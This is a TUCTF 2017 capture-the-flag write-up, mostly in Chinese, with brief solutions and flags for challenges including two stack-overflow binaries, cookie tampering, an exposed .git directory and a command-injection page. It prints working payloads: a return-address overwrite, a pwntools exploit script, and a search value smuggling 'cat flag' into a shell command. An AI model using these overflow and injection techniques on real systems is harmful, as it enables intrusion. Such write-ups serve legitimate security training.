 # TUCTF 2017


## vuln chat

第一個scanf %30s

可以控到第二個scanf的format string

然後第二個scanf蓋夠長就能直接蓋到main的return address

payload:

`perl -e 'print "A"x20,"%90s\n","A"x49,"\x6B\x85\x04\x08\n"'`

`TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`


## vuln chat 2.0

直接蓋最後兩bytes

跳到print_flag

exp:

```
from pwn import *

r = remote('vulnchat2.tuctf.com', 4242)

r.sendline('aaa')
sleep(1)
r.send('a'*43 + "\x72\x86")

r.interactive()
```


## The nerver ending crypto

英文+特殊符號的凱薩加密

共50回合


`TUCTF{wh0_w@s_her3_la5t_ye@r?!?}`


## High source

從source code可以找到密碼

view-source:http://highsource.tuctf.com/scripts/login.js

password: `I4m4M4st3rC0d3rH4x0rsB3w43`

`TUCTF{H1gh_S0urc3_3qu4ls_L0ng_F4ll} `


## Cookie Duty 

cookie: `not_admin: 1 -> 0`

`TUCTF{D0nt_Sk1p_C00k13_Duty}`


## Git Gud

dump /.git

`git reset 22f63ceab55efe05c5448676a3470b13b6545f74`

`git diff`

`TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}`


## Cookie Harrelson

cookie中可以看到一串base64

decode後發現是cat index.txt

踹踹看送cat flag可以發現前面會加上註解

用\n cat flag就可以繞過 (要先base64，再塞進cookie)


## iframe and shame

payload:

`search=https://youtube.com/watch?v=qqqasda";cat flag|head -1; "`

`TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}`


## Funmail

直接找username, password

就能登入看flag


## Funmail2.0

直接gdb跳過去print_flag


## I'm playing

登入discord即可看到flag

